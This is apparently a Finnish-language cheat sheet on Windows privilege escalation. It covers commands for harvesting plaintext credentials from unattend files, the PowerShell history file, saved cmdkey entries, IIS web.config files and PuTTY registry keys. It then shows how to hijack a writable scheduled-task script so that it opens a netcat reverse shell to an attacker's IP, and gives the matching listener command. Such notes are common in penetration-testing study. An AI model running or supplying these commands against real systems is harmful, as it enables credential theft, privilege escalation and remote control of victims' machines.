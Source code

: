 ## Privilege Escalation: Windows ##

Windowsissa tavalliset käyttäjät kuuluvat Users -käyttäjäryhmään, administraattorit Administrators -käyttäjäryhmään.

Erityiskäyttäjätunnukset:

SYSTEM / LocalSystem: Käyttöjärjestelmän käyttämä tunnus käyttöjärjestelmän sisäisiin toimintoihin. Adminejakin korkeammat oikeudet.

Local Service: Oletuskäyttäjä "minimioikeuksilla" Windowsin palvelujen ajamiseen, anonyymit yhteydet verkon yli.

Network Service: Sama kuin yllä, mutta käyttää tietokoneen tunnuksia autentikoitumiseen verkon yli.

**Selkokielisten tunnusten etsimispaikkoja**

WDS:llä asennetut "Unattended Windows Installations" saattavat jättää admin-tunnuksia näihin sijainteihin:
```bash
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```
Powershell-historia (cmd.exe ajettuna):
```cmd
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

Tallennetut käyttäjätunnukset:
```cmd
cmdkey /list
```
Jos löytyy kokeilemisen arvoisia, niin:
```cmd
runas /savecred /user:USERNAME cmd.exe
```
IIS konfiguraatioon tallennetut tunnukset:
```cmd
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```
```cmd
type C:\inetpub\wwwroot\web.config | findstr connectionString
```
PuTTY:n tallentamat Proxy-tunnukset:
```cmd
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```
**Ajastetut tehtävät**
Listaa ajastetut tehtävät:
```cmd
schtasks
```
Lisätietoja yksittäisestä tehtävästä:
```cmd
schtasks /query /tn *TaskName* /fo list /v
```
Task to run kertoo ajettavan tiedoston (esim. .bat scripti), Task as user kertoo käyttäjätunnuksen, jolla tehtävä ajetaan. Alla olevalla komennolla tarkistetaan ko. tiedoston kirjoitusoikeudet, ja jos nykyisellä käyttäjällä voidaan kirjoittaa, niin voidaan muokata scriptiä, ja se pyörähtää Task as user-tunnuksella. 
```cmd
icacls C:\polku\tiedostoon\scripti.bat
```
Jos esim. \USERS -käyttäjillä kirjoitusoikeudet, voidaan tehdä reverse shell netcatilla:
```cmd
echo c:\polku\netcatiin\nc64.exe -e cmd.exe *Hyökkääjän IP* 9999 > C:\polku\scrriptiin\scripti.bat
```
Netcat -kuuntelumoodiin omalle koneelle porttiin 9999:
```unix
nc -ncvlp 9999
```
